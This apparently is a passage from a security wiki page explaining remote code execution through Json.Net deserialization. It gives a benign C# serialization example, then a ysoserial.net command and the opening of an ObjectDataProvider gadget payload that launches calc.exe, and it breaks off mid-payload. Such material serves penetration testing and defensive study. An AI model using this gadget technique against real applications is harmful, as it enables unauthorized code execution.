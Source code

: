 ```
## Json.Net

In the [[https://www.newtonsoft.com/json|official web page]] it is indicated that this library allows to **Serialize and deserialize any .NET object with Json.NET's powerful JSON serializer**. So, if we could **deserialize the ObjectDataProvider gadget**, we could cause a **RCE** just deserializing an object.

### Json.Net example

First of all lets see an example on how to **serialize/deserialize** an object using this library:

```java
using System;
using Newtonsoft.Json;
using System.Diagnostics;
using System.Collections.Generic;

namespace DeserializationTests
{
    public class Account
    {
        public string Email { get; set; }
        public bool Active { get; set; }
        public DateTime CreatedDate { get; set; }
        public IList<string> Roles { get; set; }
    }
    class Program
    {
        static void Main(string[] args)
        {
            Account account = new Account
            {
                Email = "james@example.com",
                Active = true,
                CreatedDate = new DateTime(2013, 1, 20, 0, 0, 0, DateTimeKind.Utc),
                Roles = new List<string>
                {
                    "User",
                    "Admin"
                }
            };
            //Serialize the object and print it
            string json = JsonConvert.SerializeObject(account);
            Console.WriteLine(json);
            //{"Email":"james@example.com","Active":true,"CreatedDate":"2013-01-20T00:00:00Z","Roles":["User","Admin"]}

            //Deserialize it
            Account desaccount = JsonConvert.DeserializeObject<Account>(json);
            Console.WriteLine(desaccount.Email);
        }
    }
}
```
```
### Abusing Json.Net

Using [[https://github.com/pwntester/ysoserial.net|ysoserial.net]] I crated the exploit:

```java
yoserial.exe -g ObjectDataProvider -f Json.Net -c "calc.exe"
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
```